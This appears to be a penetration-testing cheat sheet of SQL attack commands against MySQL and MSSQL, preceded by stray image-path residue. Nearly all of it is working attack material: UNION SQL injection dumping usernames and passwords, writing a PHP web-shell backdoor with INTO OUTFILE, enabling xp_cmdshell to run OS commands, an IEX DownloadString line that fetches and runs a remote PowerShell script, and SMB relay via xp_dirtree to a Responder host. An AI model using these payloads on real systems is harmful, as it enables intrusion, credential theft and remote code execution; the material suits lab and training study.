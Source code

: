 Queries
- Upload php command injection file:  
  `union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'`  
- Load file:  
  `union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6` 

MSSQL 
- Nmap scripts with db credentials:  
  `# nmap -n -Pn -p1433 --script "ms-sql-* and not ms-sql-brute" --script-args mssql.username=sa,mssql.password=<pw> 10.11.1.31`  
- Impacket mssqlclient.py:   
  `mssqlclient.py HOSTNAME/USERNAME:'PASSWORD'@10.10.10.22 -windows-auth`   
  Check if the user is sysadmin:   
  `SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')`  
  `-----------`   
  `1`  
  Run OS commands through xp_cmdshell:  
  `SQL> EXEC sp_configure 'xp_cmdshell', 1`  
  `[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.`  
  `SQL> reconfigure;`  
  `SQL> xp_cmdshell "whoami"` 
  `[...]`  
  `hostname\sql_svc`  
  Using PowerUpSQL:  
  `IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1')`  
  `$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username "domain\user" -password "passw0rd123" | Where-Object {$_.Status -like "Accessible"}`  
`Invoke-SQLAudit -Verbose -Instance "servername.domain.local,1433"`  
  SMB Relay through xp_dirtree:  
  Run responder on kali with `/opt/Responder/Responder.py -I eth0 -w -r -f -d`   
  Initiate connection on xp_dirtree vulnerable sql server: `Get-SQLQuery -Verbose -Instance "servername.domain.local,1433" -Query "EXEC master.sys.xp_dirtree '\\<kali-ip>\test123'"`   
  
MySQL 
- Enumerate tables:  
  `http://10.11.14.101/comment.php?id=769 union all select 1,2,3,4,table_name,6 FROM information_schema.tables` 
- Get columns of specific table:  
  `http://10.11.14.101/comment.php?id=769 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'` 
- Get content of table:  
  `http://10.11.14.101/comment.php?id=769 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users`  
- Create new php file with cmd.exe:  
  `http://10.11.14.101/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'`  
- Use the new page with params:  
  `http://10.11.14.101/backdoor.php?cmd=whoami`  
